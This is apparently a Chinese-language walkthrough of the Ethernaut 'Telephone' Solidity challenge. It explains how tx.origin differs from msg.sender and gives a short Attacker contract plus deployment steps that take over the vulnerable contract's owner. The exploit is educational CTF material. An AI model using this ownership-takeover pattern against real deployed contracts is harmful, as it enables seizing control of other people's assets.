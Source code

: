 # Telephone

Telephone这一关考察了solidity中对于msg.sender和tx.origin的区别。让我们先来看这个合约的代码

## 合约代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```
 
## 代码分析
这个合约中改变owner使用的是changeOwner函数，这个函数中有一个判断，如果tx.origin不等于msg.sender，那么就可以改变owner。但是如果当我们直接call changeOwner函数的时候，tx.origin和msg.sender是相等的，这样就会导致我们没有办法改变owner。这里需要提及的一个知识点是：
假设我们有两个合约A和B, Alice调用了合约A的一个函数，那么在这个情况下，tx.origin是Alice，并且msg.sender也是Alice。但如果Alice调用了合约A的一个函数，这个函数又调用了合约B的一个函数，那么在这个情况下，tx.origin是Alice，但是msg.sender是合约A。
根据以上的知识点，我们只需要创建一个合约，用这个合约来调用Telephone合约的changeOwner函数，就可以改变owner了。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

    constructor(address _target){
        Telephone(_target).changeOwner(msg.sender);
    }
}

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

```
## 攻击过程
1. 部署Telephone的新实例，获得合约地址
2. 部署Attacker合约，将Telephone合约地址作为constructor的参数，这样就将owner改成了我们的钱包地址了
